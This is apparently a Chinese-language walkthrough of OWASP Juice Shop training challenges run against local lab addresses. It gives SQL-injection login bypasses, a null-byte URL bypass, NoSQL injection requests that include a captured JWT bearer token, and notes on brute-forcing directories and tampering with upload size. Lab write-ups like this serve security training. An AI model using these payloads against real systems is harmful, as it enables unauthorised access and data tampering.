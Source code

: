 ```bash
bender@juice-sh.op'--
```
## Login Bjoern
暴力破解哈希不可能。官方答案说解密的方法，就在登入页面上的源码中一个dist/juice-shop.min.js链接里。密码为邮箱的base64加密。
## Login Jim
万能密码绕过
```bash
jim@juice-sh.op' or 1 and 1 --+
```
## Misplaced Signature File
```bash
http://192.168.20.132:3000/suspicious_errors.yml％2500.md
```
## NoSQL Injection Tier 1
要求让服务器休眠一段时间.
访问一下链接即可
```bash
http://192.168.239.128:3000/rest/product/sleep(100)/reviews 
```
## NoSQL Injection Tier 2
同时更新所有的评论</br>
向
```bash
http://192.168.20.132:3000/rest/product/reviews
```
提交patch请求。
body为
```bash
{ "id": { "$ne": -1 }, "message": "NoSQL Injection!" } 
```
Headers为,其中Authorization,根据自己的去抓包值去修改。
```bash
conent-type:application/json
Authorization: Bearer eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdGF0dXMiOiJzdWNjZXNzIiwiZGF0YSI6eyJpZCI6NywiZW1haWwiOiI0MzE3NzQ0MzdAcXEuY29tIiwicGFzc3dvcmQiOiI4ZWVkOWVkN2JjN2UxOGE4OTc1Y2E1YTM5MWUzMmEwYyIsImNyZWF0ZWRBdCI6IjIwMTgtMDMtMTQgMDQ6MDA6NDcuMjMwICswMDowMCIsInVwZGF0ZWRBdCI6IjIwMTgtMDMtMTQgMDQ6MDA6NDcuMjMwICswMDowMCJ9LCJpYXQiOjE1MjEwNzY3MDQsImV4cCI6MTUyMTA5NDcwNH0.vSA_fSFw1-yrRLYJatnIKmJvXYgBtvdI5pZOI1UNCVZ6_qtQ-hS2ETsvm_gi1p_d3E39Czc-__2GTtaE582C9jlrAOxmYiDNuzeM9PHxa8kd7hb40EAs6srD17vE_HDlU0LE-4VBUScjLPoRXWjQXM8QFC3_D9Eyc6FAM--T8TQ
````

## Payback Time
## Product Tampering

## Reset Bender's Password
这道题需要社工，最后会查到`Stop'n'Drop`。
## Retrieve Blueprint
下载一个想设计文件通过3d打印去打。
先下载一张图片。通过图片可知相机制造商为openscad，谷歌可知这个软件编辑的3d打印的格式为.stl，暴力破解http://192.168.239.128:3000/public/images/products/  该目录下爆破.stl。看源码也知道有个JuiceShop.stl文件。
## Typosquatting Tier 1
在ftp下载package.json.bak 文件并打开，找到epilogue-js吗，百度去搜一下原因。在联系我们的页面上，提交`epilogue-js`的评论
## Upload Size
在投诉那里先上传一个小于100kb的.pdf文件， 通过bp抓包，修改为大于100kb小于200kb的。就ok
